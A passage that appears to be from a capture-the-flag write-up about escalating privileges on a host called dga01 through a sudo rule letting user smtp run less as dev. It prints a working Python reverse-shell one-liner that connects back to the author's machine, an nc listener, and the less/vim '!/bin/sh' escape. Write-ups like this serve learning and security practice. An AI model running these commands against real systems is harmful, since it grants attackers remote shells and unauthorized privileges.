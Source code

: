 Hopefully, someone was gracious enough to let us execute `less` as `dev`:

```bash
$ sudo -l
Matching Defaults entries for smtp on dga01:
    env_reset, mail_badpass,
    secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin\:/snap/bin

User smtp may run the following commands on dga01:
    (dev) NOPASSWD: /usr/bin/less
```

By searching `less` and privilege escalation, I saw that it is possible to launch `vim` with less by typing `v`, then from `vim` we can launch a shell using `!/bin/sh`.

Problem was that I could not use `less` because my shell doesn't have a tty...

So what I did instead was first to launch a reverse shell with tty.
This was quite hard to do, as I can't install stuff and can't even write anything on the disk (so I couldn't download socat for instance).
To do that, I type the following command on remote (replace `<my_ip>` with your ip address):

```bash
export RHOST="<my_ip>";export RPORT=5555;python3 -c 'import socket,os,pty;s=socket.socket();s.connect((os.getenv("RHOST"),int(os.getenv("RPORT"))));[os.dup2(s.fileno(),fd) for fd in (0,1,2)];pty.spawn("/bin/sh")'
```

And on my laptop (don't forget to configure port redirection if you are behind a NAT):
```bash
nc -lvp 5555
```

This opens a reverse shell on the server on which I can perform the exploit:

```bash
sudo -u dev less /etc/passwd
```

Then type `v`, when `:` appears type `!/bin/sh` and you are `dev`:
